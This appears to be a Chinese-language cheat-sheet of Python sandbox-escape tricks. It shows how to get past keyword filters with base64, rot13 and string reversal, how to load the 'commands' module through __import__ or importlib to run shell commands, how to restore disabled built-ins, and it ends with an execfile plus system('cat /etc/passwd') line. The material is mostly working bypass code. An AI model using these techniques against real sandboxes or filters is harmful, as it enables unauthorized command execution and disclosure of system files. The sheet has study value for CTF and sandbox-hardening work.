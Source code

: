 ### 编码绕过正则或关键词检测

```
eval('xxxxxx'.decode('base64'))
```

```
s = "emit"
s = s [::-1]
print a[s]

```

### 使用__import__ importlib

```
f3ck = __import__("pbzznaqf".decode('rot_13'))
print f3ck.getoutput('ifconfig')

or:

import importlib
f3ck = importlib.import_module("pbzznaqf".decode('rot_13'))
print f3ck.getoutput('ifconfig')
```

### 绕过内置函数被禁（鸡肋）

```
import imp
imp.reload(__builtin__)

or

imp.load_module(__builtin__)
```

> 上述方法能够生效的前提是，在最开始有这样的程序语句import __builtin__，这个import的意义并不是把内建模块加载到内存中，因为内建早已经被加载了，它仅仅是让内建模块名在该作用域中可见。


> 以Python 2.7为例，__builtin__模块和__builtins__模块的作用在很多情况下是相同的。
但是，在Python 3+中，__builtin__模块被命名为builtins。
所以，在3中python需要将2中的名称改为builtins,同时添加import builtins



### 不引入直接执行

```
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')

```

如果execfile函数被禁止,那么还可以使用文件操作打开相应文件然后读入,使用exec来执行代码就可以
